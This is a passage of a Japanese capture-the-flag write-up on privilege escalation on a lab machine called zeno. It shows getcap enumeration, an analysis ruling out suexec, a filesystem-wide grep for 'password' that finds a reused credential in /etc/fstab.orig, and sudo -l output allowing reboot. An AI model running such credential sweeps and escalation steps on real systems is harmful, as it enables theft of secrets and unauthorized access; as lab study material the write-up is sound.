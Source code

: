```sh
sh-4.2$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
```

apacheが suexec を実行可能。

```sh
ls -al /usr/sbin/suexec
-r-x--x---. 1 root apache 15368 Nov 16  2020 /usr/sbin/suexec
```

100未満のGID、500未満のUIDは設定できない。つまり直接rootにはなれない。

```sh
sh-4.2$ /usr/sbin/suexec -V
/usr/sbin/suexec -V
 -D AP_DOC_ROOT="/var/www"
 -D AP_GID_MIN=100
 -D AP_HTTPD_USER="apache"
 -D AP_LOG_SYSLOG
 -D AP_SAFE_PATH="/usr/local/bin:/usr/bin:/bin"
 -D AP_UID_MIN=500
 -D AP_USERDIR_SUFFIX="public_html"
```

色々調べたところ、そもそもCGIのオーナーがset_uidするユーザーと同一でなければならないので、権限昇格に使うことは不可能と理解。つまり Apache suEXEC の通常運転。

最後の手段、「password キーワードで雑に探す」で下記を発見した。edwardで引っかからないようになっている。忍耐。

```sh
$ find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/usr/share/*" -not -path "/usr/src/*" -not -path "/usr/lib/*" -not -path "/snap/core*" -exec grep -i -I "password" {} /dev/null \; 2>/dev/null

/etc/fstab.orig://10.10.10.10/secret-share  /mnt/secret-share  cifs  _netdev,vers=3.0,ro,username=zeno,password=[REDACTED],domain=localdomain,soft  0 0
```

su で、edward のパスワードとして使えた。

## 権限昇格２

reboot に sudo が付いている。

```sh
[edward@zeno ~]$ sudo -l
sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```
